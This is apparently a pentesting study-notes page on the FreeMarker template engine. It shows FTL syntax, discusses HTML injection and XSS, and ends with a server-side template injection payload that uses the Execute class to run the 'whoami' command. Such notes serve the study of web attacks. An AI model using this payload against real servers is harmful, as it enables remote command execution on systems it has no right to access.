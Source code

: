 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Freemarker

## Syntax

FreeMarker uses the [**FreeMarker Template Language (FTL)**](https://freemarker.apache.org/docs/dgui\_template\_overallstructure.html) which consists of text, interpolation, FTL tags, and comments.

```ftl
<html>[BR]
<head>[BR]
  <title>Welcome!</title>[BR]
</head>[BR]
<body>[BR]
  <#-- Greet the user with his/her name -->[BR]
  <h1>Welcome ${user}!</h1>[BR]
  <p>We have these animals:[BR]
  <ul>[BR]
  <#list animals as animal>[BR]
    <li>${animal.name} for ${animal.price} Euros[BR]
  </#list>[BR]
  </ul>[BR]
</body>[BR]
</html>
```

FreeMarker auto-escapes variables if the content type is an HTML document, while most other templating engines always escape HTML content unless specified not to. This make FreeMarker more susceptile to HTML injection (Figure 1.1) and XSS attacks (Figure 1.2).

<figure><img src="../../../../.gitbook/assets/web_ssti_freemarker_syntax.png" alt=""><figcaption><p>Figure 1: Testing HTML injection and XSS in FreeMarker.</p></figcaption></figure>

Unlike PHP used in [Twig](freemarker.md#twig), Java uses cares about data types so if an integer is multiplied with a string, we expect to get an error (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_ssti_freemarker_syntax_1.png" alt=""><figcaption><p>Figure 2: Intentionally inducing an error.</p></figcaption></figure>

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We can leverage the [`Execute`](https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html) class which implements the `TemplateModel` interface to achieve RCE in a FreeMarker templating engine.

```ftl
${"freemarker.template.utility.Execute"?new()("whoami")}
```
